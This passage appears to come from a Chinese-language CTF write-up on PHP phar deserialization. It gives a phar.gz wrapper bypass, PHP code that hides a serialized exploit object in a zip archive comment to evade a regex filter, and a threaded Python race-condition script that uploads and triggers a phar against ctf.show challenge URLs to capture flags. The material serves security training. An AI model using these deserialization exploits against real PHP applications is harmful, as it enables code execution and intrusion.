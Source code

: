 ```
filename=phar://pharppp.phar.gz/pharppp.phar
```

**方法二**

将phar的内容写进压缩包注释中，也同样能够反序列化成功，压缩为zip也会绕过该正则

```
$phar_file = serialize($exp);
    echo $phar_file;
    $zip = new ZipArchive();
    $res = $zip->open('1.zip',ZipArchive::CREATE); 
    $zip->addFromString('crispr.txt', 'file content goes here');
    $zip->setArchiveComment($phar_file);
    $zip->close();
```

这篇文章在php源码角度给出分析：https://www.anquanke.com/post/id/240007

> phar反序列化过程中，对metadata进行解析的时候会进行`php_var_unserialize()`将Phar中的metadata进行反序列化

<u>*ctfshow --- 276*</u>

<u>*BUUCTF --- [NCTF2019]phar matches everything*</u>

```python
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import requests
import threading

flag = False
url = "http://8f6f1872-fd37-4431-a005-55b6b4e1d2a2.challenge.ctf.show/"
data = open('./phar.phar', 'rb').read()

pre_resp = requests.get(url)
if pre_resp.status_code != 200:
    print(url + ' -> nonono')
    exit(1)

def upload():
    global flag
    while not flag:
        requests.post(url+"?fn=phar.phar", data=data)


def read():
    global flag
    while not flag:
        r = requests.post(url+"?fn=phar://phar.phar/", data="")
        if "ctfshow{" in r.text and flag is False:
            print(r.text)
            flag = True

if __name__ == "__main__":
    a = threading.Thread(target=upload)
    b = threading.Thread(target=read)
    a.start()
    b.start()
    a.join()
    b.join()
```